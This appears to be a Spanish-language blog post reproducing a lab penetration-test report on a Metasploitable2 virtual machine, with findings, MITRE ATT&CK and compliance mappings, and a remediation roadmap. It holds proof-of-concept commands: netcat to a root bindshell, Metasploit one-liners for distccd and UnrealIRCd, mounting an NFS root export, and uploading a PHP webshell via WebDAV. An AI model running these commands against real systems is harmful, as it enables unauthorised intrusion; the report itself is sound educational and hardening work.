 ```yaml
---
title: 'Informe de Pentesting  laboratorio'
date: '2025-08-27'
lastmod: '2025-08-28'
tags: ['pentesting', 'owasp-top10', 'metasploitable2', 'rce', 'nfs', 'smb']
draft: false
summary: 'Pentest de laboratorio en 192.168.0.52 (Metasploitable2): RCE (distccd/UnrealIRCd), WebDAV con ejecución, NFS/SMB inseguros, métricas y roadmap.'
authors: ['default']
images: ['/static/images/informe-de-pentesting-laboratorio/cover.png']
---
```


---

> **Contexto**: ejercicio de pentesting controlado sobre **Metasploitable2** (192.168.0.52). Resultados con fines educativos y de **hardening**.
> **Interno**: consulta más casos en [#pentesting](/tags/pentesting) y [#owasp-top10](/tags/owasp-top10).

## PoCs destacados (extracto ejecutable)

```bash
# Bindshell root
nc 192.168.0.52 1524

# Telnet (credenciales descubiertas)
telnet 192.168.0.52 23

# NFS mount
showmount -e 192.168.0.52
sudo mount -t nfs 192.168.0.52:/ /mnt/nfs -o nolock
ls -la /mnt/nfs/etc

# distccd RCE (Metasploit)
msfconsole -q -x 'use exploit/unix/misc/distcc_exec; set RHOSTS 192.168.0.52; run'

# WebDAV PUT (cadaver)
cadaver http://192.168.0.52/dav
put shell.php
```

**Referencias**

- OWASP Top 10 2021: [A05 Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/), [A06 Vulnerable and Outdated Components](https://owasp.org/Top10/A06_2021-Vulnerable_and_Outdated_Components/).
- NVD: [CVE-2004-2687](https://nvd.nist.gov/vuln/detail/CVE-2004-2687), [CVE-2010-2075](https://nvd.nist.gov/vuln/detail/CVE-2010-2075), [CVE-2012-2122](https://nvd.nist.gov/vuln/detail/CVE-2012-2122).

---

## Informe original (sin editar)

Para preservar la trazabilidad, se incluye el texto íntegro del reporte dentro de un bloque preformateado.

```text
Informe de Pentesting – laboratorio Versión: 1.1 Fecha: 2025-08-27 Cliente: laboratorio Alcance resumido Hosts: 192.168.0.52 Servicios: TCP/UDP estándar en host objetivo Ambiente: Controlado / autorizado Executive Dashboard Severidad Nº Hallazgos Crítico 4 Alto 5 Medio 1 Bajo 0 Tiempo hasta compromiso inicial: 1h 1m 40s Nº credenciales obtenidas: 6 Nº evidencias recolectadas: 29 Nº puertos expuestos: 12 Riesgo global: Alto Resumen Ejecutivo El objetivo 192.168.0.52 (Metasploitable2) expone múltiples se…ciones web vulnerables (DVWA, Mutillidae, phpMyAdmin, Tomcat). Se lograron múltiples compromisos exitosos contra el host 192.…ión remota de comandos vía distccd vulnerable (CVE-2004-2687). En un entorno real, esto habilitaría ataques de ransomware, exfiltración de bases de datos y pivoting lateral. Resumen Técnico Servicios destacados: 445/tcp, 2049/tcp, 80/tcp, 21/tcp, 6667/tcp, 3632/tcp, 23/tcp, 512/tcp, 513/tcp, 514/tcp, 3306/tcp, 5432/tcp Hallazgos clave: 10 Explotos validados: 3 Sesiones establecidas: 3 Credenciales recuperadas: 6 Metodología Se siguió PTES, con referencia a OWASP/NIST. Clasificación de Riesgos por Hallazgo Hallazgo Severidad Justificación Bindshell root (1524/tcp) expuesto Crítico Servicio bindshell en 1524/tcp otorga shell con privilegios root sin autenticación. Telnet sin cifrado con credenciales válidas Alto Servicio Telnet permite acceso con usuario válido (user:***). distccd vulnerable a RCE (CVE-2004-2687) Crítico El demonio distccd 3632/tcp ejecuta comandos arbitrarios en el host. NFS exporta / sin restricciones Alto Export de NFS permite montar la raíz del sistema y leer /etc/shadow. SMB (Samba 3.0.20) con shares anónimos RW Alto Samba permite acceso anónimo a recursos compartidos con permisos de lectura/escritura. HTTP/WebDAV permite PUT y ejecución de PHP Crítico Apache 2.2.8 con DAV/2 permite subir y ejecutar scripts en /dav. UnrealIRCd 3.2.8.1 con backdoor (CVE-2010-2075) Crítico Versión vulnerable con backdoor remoto preautenticado. Servicios r- (rlogin/rexec) inseguros expuestos Alto Servicios legacy aceptan autenticación débil y pueden permitir ejecución remota. MySQL 5.0.51a vulnerable (CVE-2012-2122) Alto Bug de autenticación permite bypass 1/256 peticiones. PostgreSQL 8.3.x con posibles credenciales por defecto Medio Servicio expuesto sin hardening; susceptibles credenciales por defecto. Hallazgos y PoC Bindshell root (1524/tcp) expuesto Descripción: Servicio bindshell en 1524/tcp otorga shell con privilegios root sin autenticación. Impacto: Compromiso total del host con privilegios de administrador. PoC: nc 192.168.0.52 1524 Evidencia asociada: artefacto sha256 ..(no hash en fingerprint) Telnet sin cifrado con credenciales válidas Descripción: Servicio Telnet permite acceso con usuario válido (user:***). Impacto: Acceso interactivo remoto; exposición de credenciales en texto claro. PoC: telnet 192.168.0.52 23 Evidencia asociada: artefacto sha256 ..(del fingerprint 23/tcp) distccd vulnerable a RCE (CVE-2004-2687) Descripción: El demonio distccd 3632/tcp ejecuta comandos arbitrarios en el host. Impacto: Ejecución remota de comandos (RCE) con privilegios del servicio. PoC: msfconsole -q -x 'use exploit/unix/misc/distcc_exec; set RHOSTS 192.168.0.52; run' Evidencia asociada: artefacto sha256 ..(fingerprint 3632/tcp) NFS exporta / sin restricciones Descripción: Export de NFS permite montar la raíz del sistema y leer /etc/shadow. Impacto: Exfiltración de credenciales y archivos sensibles; posibilidad de inyección de llaves. PoC: showmount -e 192.168.0.52 sudo mount -t nfs 192.168.0.52:/ /mnt/nfs -o nolock ls /mnt/nfs/etc Evidencia asociada: artefacto sha256 ..(fingerprint 2049/tcp) SMB (Samba 3.0.20) con shares anónimos RW Descripción: Samba permite acceso anónimo a recursos compartidos con permisos de lectura/escritura. Impacto: Escritura/ejecución arbitraria en rutas compartidas; posible escalamiento. PoC: smbclient -N -L //192.168.0.52 smbclient -N //192.168.0.52/tmp -c 'ls' Evidencia asociada: artefacto sha256 ..e97faff1 HTTP/WebDAV permite PUT y ejecución de PHP Descripción: Apache 2.2.8 con DAV/2 permite subir y ejecutar scripts en /dav. Impacto: Ejecución remota de código vía carga de webshell. PoC: cadaver http://192.168.0.52/dav # autenticación no requerida en laboratorio put shell.php Evidencia asociada: artefacto sha256 ..(fingerprint 80/tcp) UnrealIRCd 3.2.8.1 con backdoor (CVE-2010-2075) Descripción: Versión vulnerable con backdoor remoto preautenticado. Impacto: RCE preautenticado. PoC: msfconsole -q -x 'use exploit/unix/irc/unreal_ircd_3281_backdoor; set RHOSTS 192.168.0.52; run' Evidencia asociada: artefacto sha256 ..(fingerprint 6667/tcp) Servicios r- (rlogin/rexec) inseguros expuestos Descripción: Servicios legacy aceptan autenticación débil y pueden permitir ejecución remota. Impacto: Compromiso de cuentas a través de autenticación débil o confianza host. PoC: rlogin 192.168.0.52 -l user # según configuración MySQL 5.0.51a vulnerable (CVE-2012-2122) Descripción: Bug de autenticación permite bypass 1/256 peticiones. Impacto: Acceso a base de datos; posible lectura/escritura de datos sensibles. PoC: mysql -h 192.168.0.52 -u root # repetir intentos Evidencia asociada: artefacto sha256 ..acaef38a PostgreSQL 8.3.x con posibles credenciales por defecto Descripción: Servicio expuesto sin hardening; susceptibles credenciales por defecto. Impacto: Acceso a BD y datos sensibles. PoC: psql -h 192.168.0.52 -U postgres -p 5432 Evidencia asociada: artefacto sha256 ..1be330b9 Timeline del ataque 2025-08-27T12:07:42: Inicio recon 2025-08-27T13:09:22: Sesión bindshell-root en 192.168.0.52:1524 (root) 2025-08-27T13:11:24: Sesión telnet-user en 192.168.0.52:23 (user) 2025-08-27T13:12:56: Intento exploit CVE-2004-2687 en 192.168.0.52:3632 -> success 2025-08-27T13:13:00: Sesión distccd-rce en 192.168.0.52:3632 (unknown) Kill Chain / MITRE ATT&CK mapping Fase Técnica ID Reconocimiento Network Service Scanning T1046 Acceso inicial Exploitation of Remote Services T1210 Acceso inicial Valid Accounts (Telnet) T1078 Ejecución Command and Scripting Interpreter T1059 Movimiento lateral Remote Services T1021 Exfiltración Exfiltration Over Unencrypted/Unencrypted Protocol T1041 Impacto Data Encrypted for Impact (potencial) T1486 Compliance mapping Marco Control/Sección Relación OWASP Top 10 2021 A05: Security Misconfiguration Servicios inseguros (Telnet, NFS, SMB) OWASP Top 10 2021 A06: Vulnerable and Outdated Components distccd, UnrealIRCd, Apache 2.2.8 OWASP Top 10 2021 A01: Broken Access Control Shares anónimos, NFS / ISO/IEC 27001:2022 A.8, A.9, A.12, A.13 Gestión de activos, control de acceso, hardening, protección de comunicaciones PCI DSS v4.0 1, 2.2, 6.2, 8 Segmentación, configuraciones seguras, parches, gestión de credenciales Matriz de riesgo (probabilidad vs impacto) Críticos: Probabilidad Alta / Impacto Muy Alto Altos: Probabilidad Alta / Impacto Alto Medios: Probabilidad Media / Impacto Medio Métricas clave Time to Compromise (primera sesión): 1h 1m 40s Nº credenciales: 6 Nº evidencias: 29 Nº servicios expuestos: 12 Mapa de afectación Bindshell root (1524/tcp) expuesto → 192.168.0.52 → Impacto: Compromiso total del host con privilegios de administrador. Telnet sin cifrado con credenciales válidas → 192.168.0.52 → Impacto: Acceso interactivo remoto; exposición de credenciales en texto claro. distccd vulnerable a RCE (CVE-2004-2687) → 192.168.0.52 → Impacto: Ejecución remota de comandos (RCE) con privilegios del servicio. NFS exporta / sin restricciones → 192.168.0.52 → Impacto: Exfiltración de credenciales y archivos sensibles; posibilidad de inyección de llaves. SMB (Samba 3.0.20) con shares anónimos RW → 192.168.0.52 → Impacto: Escritura/ejecución arbitraria en rutas compartidas; posible escalamiento. HTTP/WebDAV permite PUT y ejecución de PHP → 192.168.0.52 → Impacto: Ejecución remota de código vía carga de webshell. UnrealIRCd 3.2.8.1 con backdoor (CVE-2010-2075) → 192.168.0.52 → Impacto: RCE preautenticado. Servicios r- (rlogin/rexec) inseguros expuestos → 192.168.0.52 → Impacto: Compromiso de cuentas a través de autenticación débil o confianza host. MySQL 5.0.51a vulnerable (CVE-2012-2122) → 192.168.0.52 → Impacto: Acceso a base de datos; posible lectura/escritura de datos sensibles. PostgreSQL 8.3.x con posibles credenciales por defecto → 192.168.0.52 → Impacto: Acceso a BD y datos sensibles. Tabla de evidencias Archivo Descripción SHA (últ. 8) network_discovery_recon-20250827T120459-13275.nmap Discovery de red local ..b91b0602 quick_tcp_recon-20250827T120459-13275.nmap Quick TCP top-1000 192.168.0.52 ..aa276ecf tcp_services_recon-20250827T120459-13275.nmap Detección de servicios/OS - 192.168.0.52 ..06ac3ec4 network_map.json scan ..6f25540f … (total 29 evidencias, ver índice completo en artefactos) Tabla de credenciales recuperadas (ofuscadas) Servicio Host Usuario Password telnet 192.168.0.52 user *** bindshell 192.168.0.52 root (none) local 192.168.0.52 msfadmin *** local 192.168.0.52 klog *** local 192.168.0.52 service *** (otros) 192.168.0.52 (varios) *** Recomendaciones priorizadas (roadmap) Inmediato (0-30 días) Deshabilitar Telnet y r-services; migrar a SSH. Cerrar puerto 1524 y eliminar backdoors. Parchar/aislar distccd y UnrealIRCd. Revocar/rotar todas las credenciales expuestas. Restringir NFS a export controlado; eliminar export de /. Auditar y restringir shares SMB anónimos. Mediano (30-90 días) Actualizar Apache/Tomcat y deshabilitar WebDAV si no es requerido. Implementar gestión de vulnerabilidades y escaneo continuo. Segmentar DB (3306/5432) a redes internas. Implementar MFA y políticas de contraseñas robustas. Largo (>90 días) Hardening base (CIS). Centralizar registros y detección (SIEM). Ejercicios de Red Team/Purple Team periódicos. Impacto (CIA triad + riesgo global) Confidencialidad: Comprometida (lectura de /etc/shadow, credenciales). Integridad: Riesgo alto (RCE, shares RW). Disponibilidad: Riesgo medio (posibles DoS colaterales). Riesgo global: Alto Limitaciones y alcance recon: Reconocimiento de red completo permitido, pero el único objetivo de explotación es 192.168.0.52 scan: NSE ausentes: rsh-* y pgsql-info; se usó fingerpr…V y scripts alternativos (rlogin-brute, rexec-brute, telnet-*). scan: DB Postgres: solo pgsql-brute disponible; sin pgsql-info. scan: La consola de escaneo se interrumpió; se reanudó con scripts alternativos. scan: Fallo en generación de nse_manifest: heredoc Python/argv; se reemplazó por variante bash con find+sha256sum. scan: Fallo en generación de nse_manifest: heredoc Python/argv; se reemplazó por variante bash con find+sha256sum. scan: Consola se cerró durante generación de manifest/updates; se reemplazó por finalize_scan.sh sin set -e. Próximos pasos (incluyendo retesting) Aplicar mitigaciones y solicitar retesting en 2 semanas. Validar cierre de puertos y cambios de configuración. Revisar logs de accesos no autorizados durante la ventana del pentest. Glosario de términos técnicos RCE: Remote Code Execution. NFS/SMB: Protocolos de compartición de archivos. WebDAV: Extensión de HTTP para edición remota. Bindshell: Servicio que expone un shell en un puerto TCP. Conclusión final La combinación de RCEs, backdoors y servicios inseguros permite el compromiso total del host 192.168.0.52. La exposición de un bindshell root y la posibilidad de subir webshells vía WebDAV requieren remediación inmediata y cierre de superficies de ataque. Anexo: Script PoC consolidado (laboratorio) # Bindshell root nc 192.168.0.52 1524 # Telnet (credenciales descubiertas) telnet 192.168.0.52 23 # user: (REDACTED) # NFS mount showmount -e 192.168.0.52 sudo mount -t nfs 192.168.0.52:/ /mnt/nfs -o nolock ls -la /mnt/nfs/etc # distccd RCE (Metasploit) msfconsole -q -x 'use exploit/unix/misc/distcc_exec; set RHOSTS 192.168.0.52; run' # WebDAV PUT (cadaver) cadaver http://192.168.0.52/dav put shell.php
```

---

## Notas del editor (highlights)

- **Riesgo global:** Alto. **Time-to-compromise:** 1h 1m 40s.
- Superficies críticas: **distccd RCE**, **UnrealIRCd backdoor**, **WebDAV PUT + ejecución**, **NFS/SMB inseguros**, **bindshell root**.
- **Acciones inmediatas:** deshabilitar Telnet/r-services, cerrar 1524/tcp, parchar/aislar distccd y UnrealIRCd, restringir NFS y shares SMB, rotar credenciales.

## FAQ corta

- **¿Por qué es crítico WebDAV con ejecución?** Permite carga de **webshell** y RCE sin controles adicionales.
- **¿Por qué mantener DB internas?** Exponer 3306/5432 facilita ataques de fuerza bruta y exfiltración.
